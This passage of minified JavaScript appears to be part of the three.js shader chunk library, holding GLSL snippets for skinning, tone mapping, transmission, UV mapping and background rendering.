);\\n#endif\",skinning_pars_vertex:\"#ifdef USE_SKINNING\\n\\tuniform mat4 bindMatrix;\\n\\tuniform mat4 bindMatrixInverse;\\n\\tuniform highp sampler2D boneTexture;\\n\\tmat4 getBoneMatrix( const in float i ) {\\n\\t\\tint size = textureSize( boneTexture, 0 ).x;\\n\\t\\tint j = int( i ) * 4;\\n\\t\\tint x = j % size;\\n\\t\\tint y = j / size;\\n\\t\\tvec4 v1 = texelFetch( boneTexture, ivec2( x, y ), 0 );\\n\\t\\tvec4 v2 = texelFetch( boneTexture, ivec2( x + 1, y ), 0 );\\n\\t\\tvec4 v3 = texelFetch( boneTexture, ivec2( x + 2, y ), 0 );\\n\\t\\tvec4 v4 = texelFetch( boneTexture, ivec2( x + 3, y ), 0 );\\n\\t\\treturn mat4( v1, v2, v3, v4 );\\n\\t}\\n#endif\",skinning_vertex:\"#ifdef USE_SKINNING\\n\\tvec4 skinVertex = bindMatrix * vec4( transformed, 1.0 );\\n\\tvec4 skinned = vec4( 0.0 );\\n\\tskinned += boneMatX * skinVertex * skinWeight.x;\\n\\tskinned += boneMatY * skinVertex * skinWeight.y;\\n\\tskinned += boneMatZ * skinVertex * skinWeight.z;\\n\\tskinned += boneMatW * skinVertex * skinWeight.w;\\n\\ttransformed = ( bindMatrixInverse * skinned ).xyz;\\n#endif\",skinnormal_vertex:\"#ifdef USE_SKINNING\\n\\tmat4 skinMatrix = mat4( 0.0 );\\n\\tskinMatrix += skinWeight.x * boneMatX;\\n\\tskinMatrix += skinWeight.y * boneMatY;\\n\\tskinMatrix += skinWeight.z * boneMatZ;\\n\\tskinMatrix += skinWeight.w * boneMatW;\\n\\tskinMatrix = bindMatrixInverse * skinMatrix * bindMatrix;\\n\\tobjectNormal = vec4( skinMatrix * vec4( objectNormal, 0.0 ) ).xyz;\\n\\t#ifdef USE_TANGENT\\n\\t\\tobjectTangent = vec4( skinMatrix * vec4( objectTangent, 0.0 ) ).xyz;\\n\\t#endif\\n#endif\",specularmap_fragment:\"float specularStrength;\\n#ifdef USE_SPECULARMAP\\n\\tvec4 texelSpecular = texture2D( specularMap, vSpecularMapUv );\\n\\tspecularStrength = texelSpecular.r;\\n#else\\n\\tspecularStrength = 1.0;\\n#endif\",specularmap_pars_fragment:\"#ifdef USE_SPECULARMAP\\n\\tuniform sampler2D specularMap;\\n#endif\",tonemapping_fragment:\"#if defined( TONE_MAPPING )\\n\\tgl_FragColor.rgb = toneMapping( gl_FragColor.rgb );\\n#endif\",tonemapping_pars_fragment:\"#ifndef saturate\\n#define saturate( a ) clamp( a, 0.0, 1.0 )\\n#endif\\nuniform float toneMappingExposure;\\nvec3 LinearToneMapping( vec3 color ) {\\n\\treturn saturate( toneMappingExposure * color );\\n}\\nvec3 ReinhardToneMapping( vec3 color ) {\\n\\tcolor *= toneMappingExposure;\\n\\treturn saturate( color / ( vec3( 1.0 ) + color ) );\\n}\\nvec3 CineonToneMapping( vec3 color ) {\\n\\tcolor *= toneMappingExposure;\\n\\tcolor = max( vec3( 0.0 ), color - 0.004 );\\n\\treturn pow( ( color * ( 6.2 * color + 0.5 ) ) / ( color * ( 6.2 * color + 1.7 ) + 0.06 ), vec3( 2.2 ) );\\n}\\nvec3 RRTAndODTFit( vec3 v ) {\\n\\tvec3 a = v * ( v + 0.0245786 ) - 0.000090537;\\n\\tvec3 b = v * ( 0.983729 * v + 0.4329510 ) + 0.238081;\\n\\treturn a / b;\\n}\\nvec3 ACESFilmicToneMapping( vec3 color ) {\\n\\tconst mat3 ACESInputMat = mat3(\\n\\t\\tvec3( 0.59719, 0.07600, 0.02840 ),\\t\\tvec3( 0.35458, 0.90834, 0.13383 ),\\n\\t\\tvec3( 0.04823, 0.01566, 0.83777 )\\n\\t);\\n\\tconst mat3 ACESOutputMat = mat3(\\n\\t\\tvec3(  1.60475, -0.10208, -0.00327 ),\\t\\tvec3( -0.53108,  1.10813, -0.07276 ),\\n\\t\\tvec3( -0.07367, -0.00605,  1.07602 )\\n\\t);\\n\\tcolor *= toneMappingExposure / 0.6;\\n\\tcolor = ACESInputMat * color;\\n\\tcolor = RRTAndODTFit( color );\\n\\tcolor = ACESOutputMat * color;\\n\\treturn saturate( color );\\n}\\nconst mat3 LINEAR_REC2020_TO_LINEAR_SRGB = mat3(\\n\\tvec3( 1.6605, - 0.1246, - 0.0182 ),\\n\\tvec3( - 0.5876, 1.1329, - 0.1006 ),\\n\\tvec3( - 0.0728, - 0.0083, 1.1187 )\\n);\\nconst mat3 LINEAR_SRGB_TO_LINEAR_REC2020 = mat3(\\n\\tvec3( 0.6274, 0.0691, 0.0164 ),\\n\\tvec3( 0.3293, 0.9195, 0.0880 ),\\n\\tvec3( 0.0433, 0.0113, 0.8956 )\\n);\\nvec3 agxDefaultContrastApprox( vec3 x ) {\\n\\tvec3 x2 = x * x;\\n\\tvec3 x4 = x2 * x2;\\n\\treturn + 15.5 * x4 * x2\\n\\t\\t- 40.14 * x4 * x\\n\\t\\t+ 31.96 * x4\\n\\t\\t- 6.868 * x2 * x\\n\\t\\t+ 0.4298 * x2\\n\\t\\t+ 0.1191 * x\\n\\t\\t- 0.00232;\\n}\\nvec3 AgXToneMapping( vec3 color ) {\\n\\tconst mat3 AgXInsetMatrix = mat3(\\n\\t\\tvec3( 0.856627153315983, 0.137318972929847, 0.11189821299995 ),\\n\\t\\tvec3( 0.0951212405381588, 0.761241990602591, 0.0767994186031903 ),\\n\\t\\tvec3( 0.0482516061458583, 0.101439036467562, 0.811302368396859 )\\n\\t);\\n\\tconst mat3 AgXOutsetMatrix = mat3(\\n\\t\\tvec3( 1.1271005818144368, - 0.1413297634984383, - 0.14132976349843826 ),\\n\\t\\tvec3( - 0.11060664309660323, 1.157823702216272, - 0.11060664309660294 ),\\n\\t\\tvec3( - 0.016493938717834573, - 0.016493938717834257, 1.2519364065950405 )\\n\\t);\\n\\tconst float AgxMinEv = - 12.47393;\\tconst float AgxMaxEv = 4.026069;\\n\\tcolor *= toneMappingExposure;\\n\\tcolor = LINEAR_SRGB_TO_LINEAR_REC2020 * color;\\n\\tcolor = AgXInsetMatrix * color;\\n\\tcolor = max( color, 1e-10 );\\tcolor = log2( color );\\n\\tcolor = ( color - AgxMinEv ) / ( AgxMaxEv - AgxMinEv );\\n\\tcolor = clamp( color, 0.0, 1.0 );\\n\\tcolor = agxDefaultContrastApprox( color );\\n\\tcolor = AgXOutsetMatrix * color;\\n\\tcolor = pow( max( vec3( 0.0 ), color ), vec3( 2.2 ) );\\n\\tcolor = LINEAR_REC2020_TO_LINEAR_SRGB * color;\\n\\tcolor = clamp( color, 0.0, 1.0 );\\n\\treturn color;\\n}\\nvec3 NeutralToneMapping( vec3 color ) {\\n\\tconst float StartCompression = 0.8 - 0.04;\\n\\tconst float Desaturation = 0.15;\\n\\tcolor *= toneMappingExposure;\\n\\tfloat x = min( color.r, min( color.g, color.b ) );\\n\\tfloat offset = x < 0.08 ? x - 6.25 * x * x : 0.04;\\n\\tcolor -= offset;\\n\\tfloat peak = max( color.r, max( color.g, color.b ) );\\n\\tif ( peak < StartCompression ) return color;\\n\\tfloat d = 1. - StartCompression;\\n\\tfloat newPeak = 1. - d * d / ( peak + d - StartCompression );\\n\\tcolor *= newPeak / peak;\\n\\tfloat g = 1. - 1. / ( Desaturation * ( peak - newPeak ) + 1. );\\n\\treturn mix( color, vec3( newPeak ), g );\\n}\\nvec3 CustomToneMapping( vec3 color ) { return color; }\",transmission_fragment:\"#ifdef USE_TRANSMISSION\\n\\tmaterial.transmission = transmission;\\n\\tmaterial.transmissionAlpha = 1.0;\\n\\tmaterial.thickness = thickness;\\n\\tmaterial.attenuationDistance = attenuationDistance;\\n\\tmaterial.attenuationColor = attenuationColor;\\n\\t#ifdef USE_TRANSMISSIONMAP\\n\\t\\tmaterial.transmission *= texture2D( transmissionMap, vTransmissionMapUv ).r;\\n\\t#endif\\n\\t#ifdef USE_THICKNESSMAP\\n\\t\\tmaterial.thickness *= texture2D( thicknessMap, vThicknessMapUv ).g;\\n\\t#endif\\n\\tvec3 pos = vWorldPosition;\\n\\tvec3 v = normalize( cameraPosition - pos );\\n\\tvec3 n = inverseTransformDirection( normal, viewMatrix );\\n\\tvec4 transmitted = getIBLVolumeRefraction(\\n\\t\\tn, v, material.roughness, material.diffuseColor, material.specularColor, material.specularF90,\\n\\t\\tpos, modelMatrix, viewMatrix, projectionMatrix, material.dispersion, material.ior, material.thickness,\\n\\t\\tmaterial.attenuationColor, material.attenuationDistance );\\n\\tmaterial.transmissionAlpha = mix( material.transmissionAlpha, transmitted.a, material.transmission );\\n\\ttotalDiffuse = mix( totalDiffuse, transmitted.rgb, material.transmission );\\n#endif\",transmission_pars_fragment:\"#ifdef USE_TRANSMISSION\\n\\tuniform float transmission;\\n\\tuniform float thickness;\\n\\tuniform float attenuationDistance;\\n\\tuniform vec3 attenuationColor;\\n\\t#ifdef USE_TRANSMISSIONMAP\\n\\t\\tuniform sampler2D transmissionMap;\\n\\t#endif\\n\\t#ifdef USE_THICKNESSMAP\\n\\t\\tuniform sampler2D thicknessMap;\\n\\t#endif\\n\\tuniform vec2 transmissionSamplerSize;\\n\\tuniform sampler2D transmissionSamplerMap;\\n\\tuniform mat4 modelMatrix;\\n\\tuniform mat4 projectionMatrix;\\n\\tvarying vec3 vWorldPosition;\\n\\tfloat w0( float a ) {\\n\\t\\treturn ( 1.0 / 6.0 ) * ( a * ( a * ( - a + 3.0 ) - 3.0 ) + 1.0 );\\n\\t}\\n\\tfloat w1( float a ) {\\n\\t\\treturn ( 1.0 / 6.0 ) * ( a *  a * ( 3.0 * a - 6.0 ) + 4.0 );\\n\\t}\\n\\tfloat w2( float a ){\\n\\t\\treturn ( 1.0 / 6.0 ) * ( a * ( a * ( - 3.0 * a + 3.0 ) + 3.0 ) + 1.0 );\\n\\t}\\n\\tfloat w3( float a ) {\\n\\t\\treturn ( 1.0 / 6.0 ) * ( a * a * a );\\n\\t}\\n\\tfloat g0( float a ) {\\n\\t\\treturn w0( a ) + w1( a );\\n\\t}\\n\\tfloat g1( float a ) {\\n\\t\\treturn w2( a ) + w3( a );\\n\\t}\\n\\tfloat h0( float a ) {\\n\\t\\treturn - 1.0 + w1( a ) / ( w0( a ) + w1( a ) );\\n\\t}\\n\\tfloat h1( float a ) {\\n\\t\\treturn 1.0 + w3( a ) / ( w2( a ) + w3( a ) );\\n\\t}\\n\\tvec4 bicubic( sampler2D tex, vec2 uv, vec4 texelSize, float lod ) {\\n\\t\\tuv = uv * texelSize.zw + 0.5;\\n\\t\\tvec2 iuv = floor( uv );\\n\\t\\tvec2 fuv = fract( uv );\\n\\t\\tfloat g0x = g0( fuv.x );\\n\\t\\tfloat g1x = g1( fuv.x );\\n\\t\\tfloat h0x = h0( fuv.x );\\n\\t\\tfloat h1x = h1( fuv.x );\\n\\t\\tfloat h0y = h0( fuv.y );\\n\\t\\tfloat h1y = h1( fuv.y );\\n\\t\\tvec2 p0 = ( vec2( iuv.x + h0x, iuv.y + h0y ) - 0.5 ) * texelSize.xy;\\n\\t\\tvec2 p1 = ( vec2( iuv.x + h1x, iuv.y + h0y ) - 0.5 ) * texelSize.xy;\\n\\t\\tvec2 p2 = ( vec2( iuv.x + h0x, iuv.y + h1y ) - 0.5 ) * texelSize.xy;\\n\\t\\tvec2 p3 = ( vec2( iuv.x + h1x, iuv.y + h1y ) - 0.5 ) * texelSize.xy;\\n\\t\\treturn g0( fuv.y ) * ( g0x * textureLod( tex, p0, lod ) + g1x * textureLod( tex, p1, lod ) ) +\\n\\t\\t\\tg1( fuv.y ) * ( g0x * textureLod( tex, p2, lod ) + g1x * textureLod( tex, p3, lod ) );\\n\\t}\\n\\tvec4 textureBicubic( sampler2D sampler, vec2 uv, float lod ) {\\n\\t\\tvec2 fLodSize = vec2( textureSize( sampler, int( lod ) ) );\\n\\t\\tvec2 cLodSize = vec2( textureSize( sampler, int( lod + 1.0 ) ) );\\n\\t\\tvec2 fLodSizeInv = 1.0 / fLodSize;\\n\\t\\tvec2 cLodSizeInv = 1.0 / cLodSize;\\n\\t\\tvec4 fSample = bicubic( sampler, uv, vec4( fLodSizeInv, fLodSize ), floor( lod ) );\\n\\t\\tvec4 cSample = bicubic( sampler, uv, vec4( cLodSizeInv, cLodSize ), ceil( lod ) );\\n\\t\\treturn mix( fSample, cSample, fract( lod ) );\\n\\t}\\n\\tvec3 getVolumeTransmissionRay( const in vec3 n, const in vec3 v, const in float thickness, const in float ior, const in mat4 modelMatrix ) {\\n\\t\\tvec3 refractionVector = refract( - v, normalize( n ), 1.0 / ior );\\n\\t\\tvec3 modelScale;\\n\\t\\tmodelScale.x = length( vec3( modelMatrix[ 0 ].xyz ) );\\n\\t\\tmodelScale.y = length( vec3( modelMatrix[ 1 ].xyz ) );\\n\\t\\tmodelScale.z = length( vec3( modelMatrix[ 2 ].xyz ) );\\n\\t\\treturn normalize( refractionVector ) * thickness * modelScale;\\n\\t}\\n\\tfloat applyIorToRoughness( const in float roughness, const in float ior ) {\\n\\t\\treturn roughness * clamp( ior * 2.0 - 2.0, 0.0, 1.0 );\\n\\t}\\n\\tvec4 getTransmissionSample( const in vec2 fragCoord, const in float roughness, const in float ior ) {\\n\\t\\tfloat lod = log2( transmissionSamplerSize.x ) * applyIorToRoughness( roughness, ior );\\n\\t\\treturn textureBicubic( transmissionSamplerMap, fragCoord.xy, lod );\\n\\t}\\n\\tvec3 volumeAttenuation( const in float transmissionDistance, const in vec3 attenuationColor, const in float attenuationDistance ) {\\n\\t\\tif ( isinf( attenuationDistance ) ) {\\n\\t\\t\\treturn vec3( 1.0 );\\n\\t\\t} else {\\n\\t\\t\\tvec3 attenuationCoefficient = -log( attenuationColor ) / attenuationDistance;\\n\\t\\t\\tvec3 transmittance = exp( - attenuationCoefficient * transmissionDistance );\\t\\t\\treturn transmittance;\\n\\t\\t}\\n\\t}\\n\\tvec4 getIBLVolumeRefraction( const in vec3 n, const in vec3 v, const in float roughness, const in vec3 diffuseColor,\\n\\t\\tconst in vec3 specularColor, const in float specularF90, const in vec3 position, const in mat4 modelMatrix,\\n\\t\\tconst in mat4 viewMatrix, const in mat4 projMatrix, const in float dispersion, const in float ior, const in float thickness,\\n\\t\\tconst in vec3 attenuationColor, const in float attenuationDistance ) {\\n\\t\\tvec4 transmittedLight;\\n\\t\\tvec3 transmittance;\\n\\t\\t#ifdef USE_DISPERSION\\n\\t\\t\\tfloat halfSpread = ( ior - 1.0 ) * 0.025 * dispersion;\\n\\t\\t\\tvec3 iors = vec3( ior - halfSpread, ior, ior + halfSpread );\\n\\t\\t\\tfor ( int i = 0; i < 3; i ++ ) {\\n\\t\\t\\t\\tvec3 transmissionRay = getVolumeTransmissionRay( n, v, thickness, iors[ i ], modelMatrix );\\n\\t\\t\\t\\tvec3 refractedRayExit = position + transmissionRay;\\n\\t\\t\\n\\t\\t\\t\\tvec4 ndcPos = projMatrix * viewMatrix * vec4( refractedRayExit, 1.0 );\\n\\t\\t\\t\\tvec2 refractionCoords = ndcPos.xy / ndcPos.w;\\n\\t\\t\\t\\trefractionCoords += 1.0;\\n\\t\\t\\t\\trefractionCoords /= 2.0;\\n\\t\\t\\n\\t\\t\\t\\tvec4 transmissionSample = getTransmissionSample( refractionCoords, roughness, iors[ i ] );\\n\\t\\t\\t\\ttransmittedLight[ i ] = transmissionSample[ i ];\\n\\t\\t\\t\\ttransmittedLight.a += transmissionSample.a;\\n\\t\\t\\t\\ttransmittance[ i ] = diffuseColor[ i ] * volumeAttenuation( length( transmissionRay ), attenuationColor, attenuationDistance )[ i ];\\n\\t\\t\\t}\\n\\t\\t\\ttransmittedLight.a /= 3.0;\\n\\t\\t\\n\\t\\t#else\\n\\t\\t\\n\\t\\t\\tvec3 transmissionRay = getVolumeTransmissionRay( n, v, thickness, ior, modelMatrix );\\n\\t\\t\\tvec3 refractedRayExit = position + transmissionRay;\\n\\t\\t\\tvec4 ndcPos = projMatrix * viewMatrix * vec4( refractedRayExit, 1.0 );\\n\\t\\t\\tvec2 refractionCoords = ndcPos.xy / ndcPos.w;\\n\\t\\t\\trefractionCoords += 1.0;\\n\\t\\t\\trefractionCoords /= 2.0;\\n\\t\\t\\ttransmittedLight = getTransmissionSample( refractionCoords, roughness, ior );\\n\\t\\t\\ttransmittance = diffuseColor * volumeAttenuation( length( transmissionRay ), attenuationColor, attenuationDistance );\\n\\t\\t\\n\\t\\t#endif\\n\\t\\tvec3 attenuatedColor = transmittance * transmittedLight.rgb;\\n\\t\\tvec3 F = EnvironmentBRDF( n, v, specularColor, specularF90, roughness );\\n\\t\\tfloat transmittanceFactor = ( transmittance.r + transmittance.g + transmittance.b ) / 3.0;\\n\\t\\treturn vec4( ( 1.0 - F ) * attenuatedColor, 1.0 - ( 1.0 - transmittedLight.a ) * transmittanceFactor );\\n\\t}\\n#endif\",uv_pars_fragment:\"#if defined( USE_UV ) || defined( USE_ANISOTROPY )\\n\\tvarying vec2 vUv;\\n#endif\\n#ifdef USE_MAP\\n\\tvarying vec2 vMapUv;\\n#endif\\n#ifdef USE_ALPHAMAP\\n\\tvarying vec2 vAlphaMapUv;\\n#endif\\n#ifdef USE_LIGHTMAP\\n\\tvarying vec2 vLightMapUv;\\n#endif\\n#ifdef USE_AOMAP\\n\\tvarying vec2 vAoMapUv;\\n#endif\\n#ifdef USE_BUMPMAP\\n\\tvarying vec2 vBumpMapUv;\\n#endif\\n#ifdef USE_NORMALMAP\\n\\tvarying vec2 vNormalMapUv;\\n#endif\\n#ifdef USE_EMISSIVEMAP\\n\\tvarying vec2 vEmissiveMapUv;\\n#endif\\n#ifdef USE_METALNESSMAP\\n\\tvarying vec2 vMetalnessMapUv;\\n#endif\\n#ifdef USE_ROUGHNESSMAP\\n\\tvarying vec2 vRoughnessMapUv;\\n#endif\\n#ifdef USE_ANISOTROPYMAP\\n\\tvarying vec2 vAnisotropyMapUv;\\n#endif\\n#ifdef USE_CLEARCOATMAP\\n\\tvarying vec2 vClearcoatMapUv;\\n#endif\\n#ifdef USE_CLEARCOAT_NORMALMAP\\n\\tvarying vec2 vClearcoatNormalMapUv;\\n#endif\\n#ifdef USE_CLEARCOAT_ROUGHNESSMAP\\n\\tvarying vec2 vClearcoatRoughnessMapUv;\\n#endif\\n#ifdef USE_IRIDESCENCEMAP\\n\\tvarying vec2 vIridescenceMapUv;\\n#endif\\n#ifdef USE_IRIDESCENCE_THICKNESSMAP\\n\\tvarying vec2 vIridescenceThicknessMapUv;\\n#endif\\n#ifdef USE_SHEEN_COLORMAP\\n\\tvarying vec2 vSheenColorMapUv;\\n#endif\\n#ifdef USE_SHEEN_ROUGHNESSMAP\\n\\tvarying vec2 vSheenRoughnessMapUv;\\n#endif\\n#ifdef USE_SPECULARMAP\\n\\tvarying vec2 vSpecularMapUv;\\n#endif\\n#ifdef USE_SPECULAR_COLORMAP\\n\\tvarying vec2 vSpecularColorMapUv;\\n#endif\\n#ifdef USE_SPECULAR_INTENSITYMAP\\n\\tvarying vec2 vSpecularIntensityMapUv;\\n#endif\\n#ifdef USE_TRANSMISSIONMAP\\n\\tuniform mat3 transmissionMapTransform;\\n\\tvarying vec2 vTransmissionMapUv;\\n#endif\\n#ifdef USE_THICKNESSMAP\\n\\tuniform mat3 thicknessMapTransform;\\n\\tvarying vec2 vThicknessMapUv;\\n#endif\",uv_pars_vertex:\"#if defined( USE_UV ) || defined( USE_ANISOTROPY )\\n\\tvarying vec2 vUv;\\n#endif\\n#ifdef USE_MAP\\n\\tuniform mat3 mapTransform;\\n\\tvarying vec2 vMapUv;\\n#endif\\n#ifdef USE_ALPHAMAP\\n\\tuniform mat3 alphaMapTransform;\\n\\tvarying vec2 vAlphaMapUv;\\n#endif\\n#ifdef USE_LIGHTMAP\\n\\tuniform mat3 lightMapTransform;\\n\\tvarying vec2 vLightMapUv;\\n#endif\\n#ifdef USE_AOMAP\\n\\tuniform mat3 aoMapTransform;\\n\\tvarying vec2 vAoMapUv;\\n#endif\\n#ifdef USE_BUMPMAP\\n\\tuniform mat3 bumpMapTransform;\\n\\tvarying vec2 vBumpMapUv;\\n#endif\\n#ifdef USE_NORMALMAP\\n\\tuniform mat3 normalMapTransform;\\n\\tvarying vec2 vNormalMapUv;\\n#endif\\n#ifdef USE_DISPLACEMENTMAP\\n\\tuniform mat3 displacementMapTransform;\\n\\tvarying vec2 vDisplacementMapUv;\\n#endif\\n#ifdef USE_EMISSIVEMAP\\n\\tuniform mat3 emissiveMapTransform;\\n\\tvarying vec2 vEmissiveMapUv;\\n#endif\\n#ifdef USE_METALNESSMAP\\n\\tuniform mat3 metalnessMapTransform;\\n\\tvarying vec2 vMetalnessMapUv;\\n#endif\\n#ifdef USE_ROUGHNESSMAP\\n\\tuniform mat3 roughnessMapTransform;\\n\\tvarying vec2 vRoughnessMapUv;\\n#endif\\n#ifdef USE_ANISOTROPYMAP\\n\\tuniform mat3 anisotropyMapTransform;\\n\\tvarying vec2 vAnisotropyMapUv;\\n#endif\\n#ifdef USE_CLEARCOATMAP\\n\\tuniform mat3 clearcoatMapTransform;\\n\\tvarying vec2 vClearcoatMapUv;\\n#endif\\n#ifdef USE_CLEARCOAT_NORMALMAP\\n\\tuniform mat3 clearcoatNormalMapTransform;\\n\\tvarying vec2 vClearcoatNormalMapUv;\\n#endif\\n#ifdef USE_CLEARCOAT_ROUGHNESSMAP\\n\\tuniform mat3 clearcoatRoughnessMapTransform;\\n\\tvarying vec2 vClearcoatRoughnessMapUv;\\n#endif\\n#ifdef USE_SHEEN_COLORMAP\\n\\tuniform mat3 sheenColorMapTransform;\\n\\tvarying vec2 vSheenColorMapUv;\\n#endif\\n#ifdef USE_SHEEN_ROUGHNESSMAP\\n\\tuniform mat3 sheenRoughnessMapTransform;\\n\\tvarying vec2 vSheenRoughnessMapUv;\\n#endif\\n#ifdef USE_IRIDESCENCEMAP\\n\\tuniform mat3 iridescenceMapTransform;\\n\\tvarying vec2 vIridescenceMapUv;\\n#endif\\n#ifdef USE_IRIDESCENCE_THICKNESSMAP\\n\\tuniform mat3 iridescenceThicknessMapTransform;\\n\\tvarying vec2 vIridescenceThicknessMapUv;\\n#endif\\n#ifdef USE_SPECULARMAP\\n\\tuniform mat3 specularMapTransform;\\n\\tvarying vec2 vSpecularMapUv;\\n#endif\\n#ifdef USE_SPECULAR_COLORMAP\\n\\tuniform mat3 specularColorMapTransform;\\n\\tvarying vec2 vSpecularColorMapUv;\\n#endif\\n#ifdef USE_SPECULAR_INTENSITYMAP\\n\\tuniform mat3 specularIntensityMapTransform;\\n\\tvarying vec2 vSpecularIntensityMapUv;\\n#endif\\n#ifdef USE_TRANSMISSIONMAP\\n\\tuniform mat3 transmissionMapTransform;\\n\\tvarying vec2 vTransmissionMapUv;\\n#endif\\n#ifdef USE_THICKNESSMAP\\n\\tuniform mat3 thicknessMapTransform;\\n\\tvarying vec2 vThicknessMapUv;\\n#endif\",uv_vertex:\"#if defined( USE_UV ) || defined( USE_ANISOTROPY )\\n\\tvUv = vec3( uv, 1 ).xy;\\n#endif\\n#ifdef USE_MAP\\n\\tvMapUv = ( mapTransform * vec3( MAP_UV, 1 ) ).xy;\\n#endif\\n#ifdef USE_ALPHAMAP\\n\\tvAlphaMapUv = ( alphaMapTransform * vec3( ALPHAMAP_UV, 1 ) ).xy;\\n#endif\\n#ifdef USE_LIGHTMAP\\n\\tvLightMapUv = ( lightMapTransform * vec3( LIGHTMAP_UV, 1 ) ).xy;\\n#endif\\n#ifdef USE_AOMAP\\n\\tvAoMapUv = ( aoMapTransform * vec3( AOMAP_UV, 1 ) ).xy;\\n#endif\\n#ifdef USE_BUMPMAP\\n\\tvBumpMapUv = ( bumpMapTransform * vec3( BUMPMAP_UV, 1 ) ).xy;\\n#endif\\n#ifdef USE_NORMALMAP\\n\\tvNormalMapUv = ( normalMapTransform * vec3( NORMALMAP_UV, 1 ) ).xy;\\n#endif\\n#ifdef USE_DISPLACEMENTMAP\\n\\tvDisplacementMapUv = ( displacementMapTransform * vec3( DISPLACEMENTMAP_UV, 1 ) ).xy;\\n#endif\\n#ifdef USE_EMISSIVEMAP\\n\\tvEmissiveMapUv = ( emissiveMapTransform * vec3( EMISSIVEMAP_UV, 1 ) ).xy;\\n#endif\\n#ifdef USE_METALNESSMAP\\n\\tvMetalnessMapUv = ( metalnessMapTransform * vec3( METALNESSMAP_UV, 1 ) ).xy;\\n#endif\\n#ifdef USE_ROUGHNESSMAP\\n\\tvRoughnessMapUv = ( roughnessMapTransform * vec3( ROUGHNESSMAP_UV, 1 ) ).xy;\\n#endif\\n#ifdef USE_ANISOTROPYMAP\\n\\tvAnisotropyMapUv = ( anisotropyMapTransform * vec3( ANISOTROPYMAP_UV, 1 ) ).xy;\\n#endif\\n#ifdef USE_CLEARCOATMAP\\n\\tvClearcoatMapUv = ( clearcoatMapTransform * vec3( CLEARCOATMAP_UV, 1 ) ).xy;\\n#endif\\n#ifdef USE_CLEARCOAT_NORMALMAP\\n\\tvClearcoatNormalMapUv = ( clearcoatNormalMapTransform * vec3( CLEARCOAT_NORMALMAP_UV, 1 ) ).xy;\\n#endif\\n#ifdef USE_CLEARCOAT_ROUGHNESSMAP\\n\\tvClearcoatRoughnessMapUv = ( clearcoatRoughnessMapTransform * vec3( CLEARCOAT_ROUGHNESSMAP_UV, 1 ) ).xy;\\n#endif\\n#ifdef USE_IRIDESCENCEMAP\\n\\tvIridescenceMapUv = ( iridescenceMapTransform * vec3( IRIDESCENCEMAP_UV, 1 ) ).xy;\\n#endif\\n#ifdef USE_IRIDESCENCE_THICKNESSMAP\\n\\tvIridescenceThicknessMapUv = ( iridescenceThicknessMapTransform * vec3( IRIDESCENCE_THICKNESSMAP_UV, 1 ) ).xy;\\n#endif\\n#ifdef USE_SHEEN_COLORMAP\\n\\tvSheenColorMapUv = ( sheenColorMapTransform * vec3( SHEEN_COLORMAP_UV, 1 ) ).xy;\\n#endif\\n#ifdef USE_SHEEN_ROUGHNESSMAP\\n\\tvSheenRoughnessMapUv = ( sheenRoughnessMapTransform * vec3( SHEEN_ROUGHNESSMAP_UV, 1 ) ).xy;\\n#endif\\n#ifdef USE_SPECULARMAP\\n\\tvSpecularMapUv = ( specularMapTransform * vec3( SPECULARMAP_UV, 1 ) ).xy;\\n#endif\\n#ifdef USE_SPECULAR_COLORMAP\\n\\tvSpecularColorMapUv = ( specularColorMapTransform * vec3( SPECULAR_COLORMAP_UV, 1 ) ).xy;\\n#endif\\n#ifdef USE_SPECULAR_INTENSITYMAP\\n\\tvSpecularIntensityMapUv = ( specularIntensityMapTransform * vec3( SPECULAR_INTENSITYMAP_UV, 1 ) ).xy;\\n#endif\\n#ifdef USE_TRANSMISSIONMAP\\n\\tvTransmissionMapUv = ( transmissionMapTransform * vec3( TRANSMISSIONMAP_UV, 1 ) ).xy;\\n#endif\\n#ifdef USE_THICKNESSMAP\\n\\tvThicknessMapUv = ( thicknessMapTransform * vec3( THICKNESSMAP_UV, 1 ) ).xy;\\n#endif\",worldpos_vertex:\"#if defined( USE_ENVMAP ) || defined( DISTANCE ) || defined ( USE_SHADOWMAP ) || defined ( USE_TRANSMISSION ) || NUM_SPOT_LIGHT_COORDS > 0\\n\\tvec4 worldPosition = vec4( transformed, 1.0 );\\n\\t#ifdef USE_BATCHING\\n\\t\\tworldPosition = batchingMatrix * worldPosition;\\n\\t#endif\\n\\t#ifdef USE_INSTANCING\\n\\t\\tworldPosition = instanceMatrix * worldPosition;\\n\\t#endif\\n\\tworldPosition = modelMatrix * worldPosition;\\n#endif\",background_vert:\"varying vec2 vUv;\\nuniform mat3 uvTransform;\\nvoid main() {\\n\\tvUv = ( uvTransform * vec3( uv, 1 ) ).xy;\\n\\tgl_Position = vec4( position.xy, 1.0, 1.0 );\\n}\",background_frag:\"uniform sampler2D t2D;\\nuniform float backgroundIntensity;\\nvarying vec2 vUv;\\nvoid main() {\\n\\tvec4 texColor = texture2D( t2D, vUv );\\n\\t#ifdef DECODE_VIDEO_TEXTURE\\n\\t\\ttexColor = vec4( mix( pow( texColor.rgb * 0.9478672986 + vec3( 0.0521327014 ), vec3( 2.4 ) ), texColor.rgb * 0.0773993808, vec3( lessThanEqual( texColor.rgb, vec3( 0.04045 ) ) ) ), texColor.w );\\n\\t#endif\\n\\ttexColor.rgb *= backgroundIntensity;\\n\\tgl_FragColor = texColor;\\n\\t#include <tonemapping_fragment>\\n\\t#include <colorspace_fragment>\\n}\",backgroundCube_vert:\"varying vec3 vWorldDirection;\\n#include <common>\\nvoid main() {\\n\\tvWorldDirection = transformDirection( position, modelMatrix );\\n\\t#include <begin_vertex>\\n\\t#include <project_vertex>\\n\\tgl_Position.z = gl_Position.w;\\n}\",backgroundCube_frag:\"#ifdef ENVMAP_TYPE_CUBE\\n\\tuniform samplerCube envMap;\\n#elif defined( ENVMAP_TYPE_CUBE_UV )\\n\\tuniform sampler2D envMap;\\n#endif\\nuniform float flipEnvMap;\\nuniform float backgroundBlurriness;\\nuniform float backgroundIntensity;\\nuniform mat3 backgroundRotation;\\nvarying vec3 vWorldDirection;\\n#include <cube_uv_reflection_fragment>\\nvoid main() {\\n\\t#ifdef ENVMAP_TYPE_CUBE\\n\\t\\tvec4 texColor = textureCube( envMap, backgroundRotation * vec3( flipEnvMap * vWorldDirection.x, vWorldDirection.yz ) );\\n\\t#elif defined( ENVMAP_TYPE_CUBE_UV )\\n\\t\\tvec4 texColor = textureCubeUV( envMap, backgroundRotation * vWorldDirection, backgroundBlurriness );\\n\\t#else\\n\\t\\tvec4 texColor = vec4( 0.0, 0.0, 0.0, 1.0 );\\n\\t#endif\\n\\ttexColor.rgb *= backgroundIntensity;\\n\\tgl_FragColor = texColor;\\n\\t#include 